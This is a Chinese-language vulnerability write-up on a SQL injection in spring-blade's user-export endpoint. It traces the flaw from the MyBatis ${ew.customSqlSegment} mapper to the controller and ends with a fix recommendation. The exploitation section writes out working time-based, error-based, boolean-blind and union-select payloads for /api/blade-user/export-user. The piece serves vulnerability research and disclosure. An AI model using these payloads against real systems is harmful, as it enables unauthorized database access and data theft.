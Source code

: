 

# 奇安信攻防社区-spring-blade SQL注入漏洞

### spring-blade SQL注入漏洞

spring-blade SQL注入漏洞挖掘实战

# spring-blade SQL注入漏洞

## 0x01 漏洞描述

在mybatis中，可能造成SQL注入的写法为${，原因如下：

![](assets/1703152950-267848d4438af30e0777cec0352f2380.jpg)

所以，在mapper.xml中搜索${开头的内容。

![](assets/1703152950-123d052be24ef83c5f112f077091b56c.jpg)

其中，  
${ew.customSqlSegment}  
表示自定义SQL语句，我们往上跟，看这个SQL语句怎么来的。

![](assets/1703152950-d9b0329bab36eb2ac74a626e53014b01.jpg)

ew参数是一个User类型的Wrapper，看下这个函数在哪里被调用了，于是找到：  
src/main/java/org/springblade/system/user/service/impl/UserServiceImpl.java

![](assets/1703152950-3417db611f1d4284cff16c58e2124161.jpg)

往上层找到exportUser的调用。  
src/main/java/org/springblade/system/user/controller/UserController.java

![](assets/1703152950-dc1fe3f13bcd5587ce7338dc830d289f.jpg)

在UserController中将用户输入的数据转化为UserEntity，然后传入的**exportUser**函数。  
调用链如下：

1.  用户输入数据，构建成UserEntity。
2.  将userEntity带入到userService.exportUser中
3.  userService.exportUser函数中，将UserEntity又带入到baseMapper.exportUser当中
4.  baseMapper.exportUser中根据userEntity构建SQL语句（将userEntity的属性转化到where条件中）。

所以用户可控内容到了SQL语句当中，那么，我们应该怎么利用呢，比如我传入account=admin' ,最后构建的SQL语句为：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where account=?
```

因为：mybits在处理${ew.coustomSqlSegment}的时候，会将value进行预编译，如下：

![](assets/1703152950-25773937b609aea1f3c2a1d3d60773d7.jpg)

那么该怎么利用呢？ 我们可以观察到account也就是属性名是直接添加到SQL当中的，也是没有被单引号包裹的。所以我们可以传入1-sleep(5)=1，构建出来的userEntity中会有一个1-sleep(1)的属性名，其值为1，然后将userEntity拼接成的SQL语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where 1-sleep(5)=?
```

从而实现注入。我们看效果吧。

![](assets/1703152950-79a5200d5efaac254c1b727c0e6f6cce.jpg)

延迟18s，主要原因在于SQL语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user
```

有6条记录，每条记录都会执行一次sleep(3)

![](assets/1703152950-d80e9a1cafdcd75954143cc1f017670f.jpg)

其他利用方式。  
盲注确实有点恼火，比较慢，那么能不能转化成其他的利用方式呢？

-   报错注入：

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克]&account=&realName=&1-updatexml(1,concat(0x5c,database(),0x5c),1)=1 
```

![](assets/1703152950-833f947885f05fc95627348aa3b1deb7.jpg)

-   布尔盲注

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d1,1,0)=1 # false，所以导出的数据为空，excel大小会变小 
```

![](assets/1703152950-d290a860f361ca0451bfe3db0a87d5a3.jpg)

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d2,1,0)=1 # true，所以导出的数据不为空，excel大小会变大 
```

![](assets/1703152950-ced01c7c6e9ac166fe50e8549a9ae0b8.jpg)

-   联合查询

```php
/api/blade-user/export-user?Blade-Auth=[jwt-masaike]&account=&realName=&account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a=1
```

![](assets/1703152950-a89d3e865f406c00fd85528f49482d8b.jpg)

Payload解析：

![](assets/1703152950-3c7e5a29f3532531c55730547dd69327.jpg)

我们输入-=1的时候，会在where条件后，用括号包裹两个条件，然后产生两个预编译位。所以我们既要闭合括号，又要在注视符前埋下两个预编译位。从而产生初步payload：

```php
account+like+?+and+is_deleted+%3d+?)--+a |
```

然后加入我们的union select

```php
account+like+?+and+is_deleted+%3d+?)union+select+1,2,3,4,5,6,7,8,9,10,11,12--+a 
```

然后报错：

![](assets/1703152950-f70b75aa95437e84676374a45a6e4b13.jpg)

数据类型不一致，因为9所在位置是时间戳类型的，所以用mysql的时间戳函数填充到这。

```php
account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a 
```

![](assets/1703152950-9118f14e62dea2cdd924c760b019f743.jpg)

导出成功，然后看excel就可以看到user()的执行结果。

![](assets/1703152950-073437154d4b95b3be04032d93165cc7.png)

## 0x02 修复建议

在构建entity时候，判断前端传入的map中是否有entity本身不存在的属性，如果有直接忽略掉，不将其拼接到SQL中。
